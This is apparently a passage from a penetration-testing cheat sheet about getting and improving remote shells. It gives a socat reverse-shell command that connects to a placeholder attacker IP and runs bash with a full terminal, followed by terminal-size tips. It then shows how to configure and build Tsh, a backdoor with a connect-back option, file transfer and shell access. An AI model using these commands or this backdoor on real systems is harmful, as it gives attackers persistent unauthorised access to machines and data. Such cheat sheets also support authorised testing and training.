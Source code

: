 Connect to attacker’s machine:

    socat TCP4:<attackers_ip>:1337 EXEC:bash,pty,stderr,setsid,sigint,sane

#### Terminal size

By default the terminal size is quite small, as you may notice when launching `top` command or editing files with a text editor. You can easily change this, use `stty -a ` command to get the size of your regular teminal:

    $ stty -a
    speed 38400 baud; rows 57; columns 211; line = 0;

Apply desired size to your socat terminal:

    $ stty rows 57 cols 211

### Tsh

[Tsh](https://github.com/creaktive/tsh) is a small ssh-like backdoor with full-pty terminal and with capability of file transfer. This tool has very small footprint and is easily built on most unix-like systems. Start with editing tsh.h file:

    #ifndef _TSH_H
    #define _TSH_H

    char *secret = "never say never say die";

    #define SERVER_PORT 22
    short int server_port = SERVER_PORT;
    /*
    #define CONNECT_BACK_HOST  "localhost"
    #define CONNECT_BACK_DELAY 30
    */
    #define GET_FILE 1
    #define PUT_FILE 2
    #define RUNSHELL 3

    #endif /* tsh.h */

Change `secret`, specify `SERVER_PORT`. Uncomment and edit `CONNECT_BACK_HOST` and `CONNECT_BACK_DELAY` directives if you want backconnect. Run make:

    $ make linux_x64
    make                                \
        LDFLAGS=" -Xlinker --no-as-needed -lutil"   \
        DEFS=" -DLINUX"                 \
        tsh tshd
    make[1]: Entering directory '/tmp/tsh'
    gcc -O3 -W -Wall -DLINUX -c pel.c
    gcc -O3 -W -Wall -DLINUX -c aes.c
    gcc -O3 -W -Wall -DLINUX -c sha1.c
    gcc -O3 -W -Wall -DLINUX -c tsh.c
    gcc -Xlinker --no-as-needed -lutil -o tsh pel.o aes.o sha1.o tsh.o
    strip tsh
    gcc -O3 -W -Wall -DLINUX -c tshd.c
    gcc -Xlinker --no-as-needed -lutil -o tshd pel.o aes.o sha1.o tshd.o
    strip tshd
    make[1]: Leaving directory '/tmp/tsh'
